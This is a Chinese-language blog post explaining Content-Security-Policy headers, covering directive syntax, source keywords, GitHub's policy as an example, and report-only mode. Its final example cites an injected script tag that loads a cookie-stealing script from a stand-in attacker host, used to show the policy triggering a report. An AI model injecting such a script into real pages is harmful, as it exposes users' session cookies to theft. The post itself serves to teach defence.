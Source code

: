 ```yaml
---
title: CSP
date: 2020-07-31 14:09:50
tags:
- 信息安全
---
```

# 何谓 CSP

CSP 的实质就是白名单制度，开发者明确告诉客户端，哪些外部资源可以加载和执行，等同于提供白名单。它的实现和执行全部由浏览器完成，开发者只需提供白名单的配置也就是CSP规则，下图为Github使用的CSP规则。

![github-csp.png](github-csp.png)

Content-Security-Policy: default-src 'none'; base-uri 'self'; block-all-mixed-content; connect-src 'self' uploads.github.com www.githubstatus.com collector.githubapp.com api.github.com www.google-analytics.com github-cloud.s3.amazonaws.com github-production-repository-file-5c1aeb.s3.amazonaws.com github-production-upload-manifest-file-7fdce7.s3.amazonaws.com github-production-user-asset-6210df.s3.amazonaws.com cdn.optimizely.com logx.optimizely.com/v1/events wss://alive.github.com; font-src github.githubassets.com; form-action 'self' github.com gist.github.com; frame-ancestors 'none'; frame-src render.githubusercontent.com; img-src 'self' data: github.githubassets.com identicons.github.com collector.githubapp.com github-cloud.s3.amazonaws.com *.githubusercontent.com; manifest-src 'self'; media-src 'none'; script-src github.githubassets.com; style-src 'unsafe-inline' github.githubassets.com; worker-src github.com/socket-worker.js gist.github.com/socket-worker.js

CSP 大大增强了网页的安全性。攻击者即使发现了漏洞，也没法注入脚本，除非还控制了一台列入了白名单的可信主机（或者 origin/domain/host）。

# 如何为网站添加CSP规则

增加CSP规则有两种方式

1. 在响应头中增加Content-Security-Policy或Content-Security-Policy-Report-Only字段

2. 通过网页的<meta>标签

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self' *.meituan.com *.neixin.cn">
```

# CSP解决的安全问题

CSP可以有效解决XSS，HTTP劫持等问题，通过配置好的规则，确定页面中是否包含非法资源，与WAF配合让XSS攻击无从下手，下图为2019-2020年度漏洞占比，XSS占比漏洞最高。

![2019-2020年度漏洞占比.png](2019-2020年度漏洞占比.png)

# CSP策略的两种使用方式

 - Content-Security-Policy （拦截所有非法请求）
 - Content-Security-Policy-Report-Only （上报所有非法请求，不进行拦截）

使用第二种方式的时候就需要增加report-uri字段告诉浏览器需要上报到什么地址。

# CSP语法

一条CSP策略包含多条CSP指令，每个指令之间以;进行分割，每个指令包含指令名和指令值，均以空格进行分割，一个完整的CSP规则应该是以下格式的：

Content-Security-Policy: [指令名1] [指令值1] [指令值2]; [指令名2] [指令值1] [指令值2];

![csp-格式.png](csp-格式.png)

# 指令值的组成

指令值允许使用以下几种：

## 主机类型

|指令值|解释|
|:--:|:--:|
|https://www.github.com|完整的指明了协议和域名|
|www.github.com|指明了域名，不限制协议|
|*.github.com|允许 github 所有子域名，不包含github.com本身，允许的协议是当前页面url使用的协议，而非任何协议都可以|
|https://*.github.com|https协议下的 github 所有子域名，不包含github.com本身|
|https://www.github.com/csp-report|https://www.github.com/csp-report下的资源|
|10.10.10.1|ip类资源|
|10.10.10.1:443|ip类+端口资源|
|http:|允许所有http协议资源|

> 指令值的协议类型不支持通配符，不支持*://*.meituan.com这种形式，详细参考：https://www.w3.org/TR/CSP3/#framework-directive-source-list

## 关键字类型

关键字类型除*外需要用单引号包起来

|指令值|解释|
|:--:|:--:|
|'none'|不允许访问任何资源|
|'self'|允许访问同源资源|
|*|允许访问所有资源|
|‘unsafe-inline’|允许内联资源如on事件，内联script、style标签|
|'unsafe-eval'|允许使用eval等危险函数|
|'report-sample'|在报告中体现部分违规代码|

除了以上两种类型以外CSP还支持nonce-source和hash-source类型，用来指明当前页面合法的内联代码段 ，CSP项目目前不支持使用这两种方式进行配置，不做过多介绍。

# 可用的指令名

|指令值|解释|
|:--:|:--:|
|default-src|default-src代表很多指令的集合，在这些指令没有被指定的情况下，浏览器会使用default-src的指令值给对应的指令|
|script-src|用于限制全局js加载源|
|script-src-elem|限制<script>标签中的js代码和<script>标签的src属性|
|script-src-attr|限制除<script>标签和src属性以外的js代码|
|style-src|限制全局css|
|style-src-elem|限制<style>标签中的代码和带有rel="stylesheet"属性的link标签代码|
|style-src-attr|限制单个DOM元素的内联样式代码|
|img-src|限制<img>标签的src属性|
|font-src|限制字体的加载源|
|connect-src|限制使用js加载的url，如a标签ping属性，XMLHttpRequest等|
|media-src|限制<audio>、<video>等标签的src属性|
|object-src|限制<embed>的src属性、<applet>的archive属性、<object>标签的data属性等，限制flash插件加载|
|child-src|限制<frame>和<iframe>，worker等元素的加载源，建议设置frame-src 和 worker-src代替|
|frame-src|限制frame和iframe加载源|
|worker-src|限制各类Worker加载源|
|frame-ancestors|与frame-src相反限制谁能嵌入我|
|from-action|限定当前页面表单的提交地址|
|base-uri|限制base标签指定的url|
|manifest-src|限制manifest.json加载源|
|plugin-types|通过限制可以加载的资源类型来限制可以嵌入到文档中的插件集，embed、object、applet|

通过上述配置一个CSP规则就诞生了。

# 小例子

一个站点接入的CSP规则如下

```html
Content-Security-Policy-Report-Only: base-uri 'none'; form-action 'none'; frame-src 'none'; manifest-src 'none'; img-src 'self' data:; style-src-elem 'unsafe-inline' 'self'; connect-src 'self'; 
                                                                         child-src 'none'; object-src 'none'; worker-src 'none'; script-src-elem 'self' cdn.jsdelivr.net; script-src-attr 'none'; media-src 'none'; frame-ancestors 'none'; font-src 'none'; 
                                                                         report-uri //csp.sec.test.sankuai.com/csp-report
```
这个时候攻击者在页面中加入了`<script src="http://xss.hacker.tools/cookie.js">`，那么这段代码将触发CSP报告，因为CSP规则中script-src-elem指令只允许访问自身和cdn.jsdelivr.net
